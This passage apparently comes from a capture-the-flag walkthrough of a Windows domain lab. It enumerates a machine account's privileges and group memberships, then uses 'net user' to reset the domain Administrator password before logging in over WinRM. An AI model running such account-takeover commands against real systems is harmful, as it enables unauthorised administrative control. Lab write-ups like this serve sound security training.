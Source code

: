 The following line is particularly relevant:

```
SeImpersonatePrivilege   Impersonate a client after authentication   Enabled
```

But before attempting anything, we perform additional enumeration, such as checking the groups that the `FileServer$` user belongs to.

```powershell
whoami /groups
```

Info:
```
GROUP INFORMATION
-----------------

Group Name                                         Type             SID                                         Attributes
================================================== ================ =========================================== ===============================================================
SOUPEDECODE\Domain Computers                       Group            S-1-5-21-2986980474-46765180-2505414164-515 Mandatory group, Enabled by default, Enabled group
Everyone                                           Well-known group S-1-1-0                                     Mandatory group, Enabled by default, Enabled group
BUILTIN\Pre-Windows 2000 Compatible Access         Alias            S-1-5-32-554                                Mandatory group, Enabled by default, Enabled group
BUILTIN\Users                                      Alias            S-1-5-32-545                                Mandatory group, Enabled by default, Enabled group
BUILTIN\Administrators                             Alias            S-1-5-32-544                                Mandatory group, Enabled by default, Enabled group, Group owner
NT AUTHORITY\NETWORK                               Well-known group S-1-5-2                                     Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\Authenticated Users                   Well-known group S-1-5-11                                    Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\This Organization                     Well-known group S-1-5-15                                    Mandatory group, Enabled by default, Enabled group
SOUPEDECODE\Enterprise Admins                      Group            S-1-5-21-2986980474-46765180-2505414164-519 Mandatory group, Enabled by default, Enabled group
SOUPEDECODE\Denied RODC Password Replication Group Alias            S-1-5-21-2986980474-46765180-2505414164-572 Mandatory group, Enabled by default, Enabled group, Local Group
NT AUTHORITY\NTLM Authentication                   Well-known group S-1-5-64-10                                 Mandatory group, Enabled by default, Enabled group
Mandatory Label\High Mandatory Level               Label            S-1-16-12288
```

We discover that the account is part of the `BUILTIN\Administrators` group. This means we can directly change the password of the `Administrator` account, although in a real world environment this would not be considered good practice.

```powershell
net user Administrator 123456!
```

Info:
```
The command completed successfully.
```
With the new credentials, we log into `WinRM` as `Administrator`. 
